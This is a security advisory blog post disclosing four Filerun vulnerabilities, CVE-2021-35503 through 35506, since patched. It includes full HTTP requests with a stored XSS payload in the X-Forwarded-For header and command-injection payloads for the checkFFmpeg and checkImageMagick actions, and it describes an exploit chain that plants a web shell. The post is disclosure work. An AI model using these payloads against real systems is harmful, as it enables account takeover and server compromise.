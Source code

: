```yaml
---
layout: post
current: post
cover2: assets/images/welcome.jpg
cover: False
navigation: True
title: Advisory for Filerun <= 2021.03.26
date: 2021-09-23 10:00:00
tags: [advisory]
class: post-template
subclass: 'post'
author: chris
demo: assets/filerun.2021.35503.and.35505.small.mp4
---
```


We discovered multiple vulnerabilities in [Filerun](https://filerun.com) <= 2021.03.26.
The vulnerabilities were fixed in Filerun 2021.06.27.

| CVE ID | Type |
| --- | --- |
| CVE-2021-35503 | Stored Cross-Site-Scripting (unauthenticated) in HTTP header |
| CVE-2021-35504 | Remote Code Execution (authenticated) using *checkFFmpeg* |
| CVE-2021-35505 | Remote Code Execution (authenticated) using *checkImageMagick* |
| CVE-2021-35506 | Stored Cross-Site-Scripting (authenticated) in HTML-Editor |

## CVE-2021-35503
Sending a malicious *X-Forwarded-For* header results in a stored XSS in the activity logs. 
The code is triggered if an admin views or archives the logs.
Filerun blocks brute force attacks. To prevent account lock out, use a non-existent username.
```
POST /?module=fileman&page=login&action=login HTTP/1.1
Host: localhost
Content-Length: 66
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: <iMg onerror=alert(1) src=a>
Cookie: FileRunSID=a99a9ba3867833fd1af9b6549eb83524
Connection: close

username=filerun&password=password&otp=&two_step_secret=&language=
```

The severity can be summarized as critical.

An unauthenticated remote attacker will gain access to data shared by other users. 
He could edit the files or put the application in maintenance mode, which would impact availability.
He could become an administrator user by stealing sessions or exploit other vulnerabilities in this Filerun version.

## CVE-2021-35504
An attacker with access to the admin backend can abuse the *checkFFmpeg* action to trigger code execution in the context of the webserver user.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkFFmpeg HTTP/1.1
Host: localhost
Content-Length: 29
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

path=ffmpeg%7Cecho%20%60ls%60
```

The severity can be summarized as high.

The attacker requires access to a higher privileged account of the application (e.g. through *CVE-2021-35503*).
He/She is able to escalate their privileges to the context of the web server user.


## CVE-2021-35505
An attacker with access to the admin backend can abuse the *checkImageMagick* action to trigger code execution in the context of the webserver user.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkImageMagick HTTP/1.1
Host: localhost
Content-Length: 40
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

mode=exec&path=convert%7Cecho%20%60ls%60
```

The severity can be summarized as high.

The attacker requires access to a higher privileged account of the application (e.g. through *CVE-2021-35503*).
He/She is able to escalate their privileges to the context of the web server user.


## CVE-2021-35506
An attacker can upload an HTML file with malicious javascript code. The code is executes when a user views or edits this file using the HTML-Editor.

The severity can be summarized as critical.

A low privileged attacker will gain access to data shared by other users. He could edit the files or put the application in
maintenance mode, which would impact availability. He could become an administrator user by stealing sessions (or trigger *CVE-2021-35504* or *CVE-2021-35505*).


## Exploit Chain
We published a [Proof of Concept](https://www.exploit-db.com/exploits/50313) that exploits *CVE-2021-35503* and *CVE-2021-35505*.
The code injects Javascript into the Activity Log Feed, that triggers the Remote Code Execution as soon as the administrator visits the page.
This will upload a *shell.php* file in the web root.


## Demo
{% include demo-video.html %}


**Thanks to the Filerun team to address these findings immediately.**
